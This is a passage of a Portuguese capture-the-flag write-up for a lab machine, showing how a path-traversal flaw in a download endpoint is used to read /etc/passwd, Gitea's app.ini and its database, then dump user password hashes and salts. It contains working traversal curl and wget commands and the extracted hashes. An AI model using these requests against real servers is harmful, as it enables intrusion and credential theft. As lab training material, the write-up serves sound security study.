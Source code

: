 O repositório `docker-config` revelou o path `/home/developer/gitea/data:/data` usado nas configurações do Gitea.

```yaml
services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"
    volumes:
      - /home/developer/gitea/data:/data
```

Utilizando a vulnerabilidade de Path Traversal, conseguimos extrair o passwd do sistema:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../etc/passwd'
```

```text
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

[Documentação Gitea:](https://docs.gitea.com/administration/config-cheat-sheet)

Lendo a documentação do Gitea, podemos identificar a localização padrão dos arquivos de configuração. O arquivo de configuração é salvo em `etc/gitea/conf/app.ini`; após a instalação, podemos utilizar o caminho `/home/developer/gitea/data:/data` (recuperado anteriormente) para localizar o arquivo `app.ini`.

(No momento da escrita deste writeup, estes posts estão indisponíveis.)

1. Extraímos o arquivo de configuração:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/conf/app.ini'
```

2. Obtivemos o banco de dados:

```bash
wget 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -O gitea.db
```

3. Extraímos informações de usuários:

```sql
sqlite3 gitea.db "select name, passwd_hash_algo, passwd, salt from user"
```

```text
administrator|pbkdf2$50000$50|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|pbkdf2$50000$50|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```
